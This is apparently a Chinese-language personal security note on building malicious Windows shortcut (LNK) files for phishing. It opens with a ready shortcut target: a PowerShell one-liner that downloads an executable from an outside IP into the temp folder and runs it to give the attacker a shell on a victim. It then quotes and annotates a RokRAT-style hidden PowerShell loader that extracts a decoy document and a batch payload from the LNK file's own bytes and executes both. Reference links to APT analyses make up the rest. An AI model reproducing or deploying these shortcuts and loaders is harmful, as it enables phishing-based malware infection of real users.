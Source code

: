 # LNK伪造

## LNK+Powershell

> [疑似BITTER组织利用LNK文件的攻击活动分析 (qq.com)](https://mp.weixin.qq.com/s/TbiXJ359ZXOyQYWsfVDwGA)
>
> [利用武器化的 Windows 快捷方式 进行无文件 RokRat 恶意软件的部署 - 嘶吼 RoarTalk – 网络安全行业综合服务平台,4hou.com](https://www.4hou.com/posts/K70x)

新建一个快捷方式然后修改目标为如下信息:

```cmd
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;iwr http://100.1.1.131:8000/download/local/Code.exe -outfile $env:TEMP\Code.exe;start-process $env:TEMP\Code.exe
```

![image-20240626114316470](http://cdn.ayusummer233.top/DailyNotes/202406261143196.png)

当受害者点击该快捷方式后则会调起powershell下载恶意程序并执行上线shell

![image-20240626114445251](http://cdn.ayusummer233.top/DailyNotes/202406261144336.png)

---

## Office OLE + LNK

> [常见钓鱼招式 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/10339?time__1311=Cqjx2QD%3DiteWqGNDQimOgbtDtt0QtDReOYD)



---

## APT

### ROKRAT

> [RokRAT（恶意软件家族） --- RokRAT (Malware Family) (fraunhofer.de)](https://malpedia.caad.fkie.fraunhofer.de/details/win.rokrat)
>
> [利用武器化的 Windows 快捷方式 进行无文件 RokRat 恶意软件的部署 - 嘶吼 RoarTalk – 网络安全行业综合服务平台,4hou.com](https://www.4hou.com/posts/K70x)
>
> [安全星图平台 (dbappsecurity.com.cn)](https://starmap.dbappsecurity.com.cn/blog/articles/2023/04/27/apt37-rokrat/)
>
> [APT37组织主战远控武器RokRAT，更新迭代部分执行流程 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/13851?time__1311=mqmxnQG%3DKDu0D%2F%2BG7DyQ5GODB07KG8f79eD&alichlgref=https%3A%2F%2Fwww.google.com%2F)
>
> [猎影追踪：APT37利用朝鲜政治话题针对韩国的攻击活动分析 (qq.com)](https://mp.weixin.qq.com/s?__biz=MzUyMDEyNTkwNA%3D%3D&mid=2247496455&idx=1&sn=0e3af7d734671a41c9d796e7f33b085d&chksm=f9ed9fb8ce9a16ae8e9714f116e0812994e0e3d13eb75d05182e623372fc5b979d70cf403f39&scene=178&cur_album_id=1375769135073951745)

```cmd
"C:\Windows\SyswOW64\cmd.exe" /c powershell -windowstyle hidden $dirPath = Get-Location; if($dirPath -Match 'system32' -or $dirPath -Match 'Program Files') {$dirPath = 'C:\Users\Admin\AppData\Local\Temp'};$Lnkpath = Get-Childltem -Path $dirPath -Recurse *.lnk ^| where-object {$_.length -eg 0x0001DAB452} ^| Select-Object -ExpandProperty FullName;$pdfFile = gc $Lnkpath -Encoding Byte -TotalCount 00065446 -ReadCount 00065446; $pdfPath = 'c:Users\Admin\AppData\Local\Temp\230401.hwp'; sc $pdfPath ([byte[]]($pdfFile ^| select -Skip 002470)) -Encoding Byte; 
^& $pdfPath; $exeFile = gc $Lnkpath -Encoding Byte -TotalCount 00068696 -ReadCount 00068696; $exePath = 'c:/Users/Admin/AppData/Local/Temp/230401.bat'; sc $exePath ([byte[]]($exeFile ^| select -Skip 00065446)) -Encoding Byte; ^& $exePath;
```

```powershell
"C:\Windows\SyswOW64\cmd.exe" /c powershell -windowstyle hidden 
# 获取当前路径
$dirPath = Get-Location; 
# 如果当前路径包含system32或者Program Files，则将 dirPtah 设置到临时目录
if($dirPath -Match 'system32' -or $dirPath -Match 'Program Files') {$dirPath = 'C:\Users\Admin\AppData\Local\Temp'};
# 获取 dirPath 下文件大小为0x0001DAB452的
$Lnkpath = Get-Childltem -Path $dirPath -Recurse *.lnk ^| where-object {$_.length -eg 0x0001DAB452} ^| Select-Object -ExpandProperty FullName;
# Get-Contet 一次性获取 Lnkpath 对应文件开头的 65446 字节 存储到 $pdfFile
$pdfFile = gc $Lnkpath -Encoding Byte -TotalCount 00065446 -ReadCount 00065446; 
$pdfPath = 'c:Users\Admin\AppData\Local\Temp\230401.hwp'; 
# Set-Content 跳过 $pdfFile 的前 2470 字节将剩余内容 写入到 $pdfPath
sc $pdfPath ([byte[]]($pdfFile ^| select -Skip 002470)) -Encoding Byte; 
# 运行 $pdfPath
^& $pdfPath; 
# 一次性获取 Lnkpath 对应文件开头的 68696 字节 存储到 $exeFile
$exeFile = gc $Lnkpath -Encoding Byte -TotalCount 00068696 -ReadCount 00068696; 
$exePath = 'c:/Users/Admin/AppData/Local/Temp/230401.bat'; 
# Set-Content 跳过 $exeFile 的前 65446 字节将剩余内容 写入到 $exePath
sc $exePath ([byte[]]($exeFile ^| select -Skip 00065446)) -Encoding Byte; 
# 运行 $exePath
^& $exePath;
```

具体分析可以参阅 [APT37组织主战远控武器RokRAT，更新迭代部分执行流程 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/13851?time__1311=mqmxnQG%3DKDu0D%2F%2BG7DyQ5GODB07KG8f79eD&alichlgref=https%3A%2F%2Fwww.google.com%2F#toc-0)

---

## 相关链接

- [钓鱼姿势汇总 - 简书 (jianshu.com)](https://www.jianshu.com/p/dcd250593698)

---





